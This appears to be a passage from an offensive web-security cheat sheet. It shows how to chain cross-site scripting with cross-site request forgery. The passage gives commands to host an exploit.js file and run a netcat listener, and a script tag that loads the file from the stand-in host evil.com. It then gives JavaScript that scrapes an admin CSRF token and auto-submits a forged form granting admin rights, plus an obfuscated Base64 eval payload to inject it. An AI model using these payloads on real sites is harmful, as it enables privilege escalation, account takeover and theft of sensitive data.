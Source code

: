 Now we start web server to host the `exploit.js` and listener to receive the response.

```bash
# Terminal 1: Web server
sudo python3 -m http.server 80

# Terminal 2: Listener
sudo nc -lvp 1234
```

Then send a request with XSS to execute our payload (**`exploit.js`**). 
Replace the **`evil.com`** with your local ip address.

```bash
<script src="http://evil.com/exploit.js"></script>
```

We might fetch the response.

<br />

## CSRF

The example below sends request to **`/admin`** on the victim site at first.  
And retrieve HTML document and get CSRF token.  Next, insert the new **`form`** element to submit arbitrary POST data.

```js
var xhr = new XMLHttpRequest();
xhr.open("GET", "https://victim.com/admin", true);
xhr.send();

setTimeout(function() {
    var doc = new DOMParser().parseFromString(xhr.responseText, 'text/html');
    var token = doc.getElementById('csrf_token').value;
    var evilDOM = new DOMParser().parseFromString('<form id="evilform" method="POST" action="/admin/change-user-status"><input type="hidden" name="csrf_token" value="temp"><input type="text" name="username" value="john"><input type="number" name="is_admin" value="0"><button name="button" type="submit">Submit</button></form>', 'text/html');
    
		document.body.append(evilDOM.forms.evilform);
		var evilForm = document.getElementById('evilform');
    evilForm.elements.csrf_token.value = token;
		evilForm.elements.is_admin.value = 1;
    evilForm.submit();
}, 3000);
```

After that, we can inject the script above in XSS.  
For example, encode the script as Base64, then put it into the XSS payload as below.

```html
<!-- `dmFyIHh...DAwKTs=` is the Base64 encoded script above -->
<img src=x onerror=eval.call`${"eval\x28atob`dmFyIHh...DAwKTs=`\x29"}`>
```

We might be able to get sensitive information or change crucial data on the target.
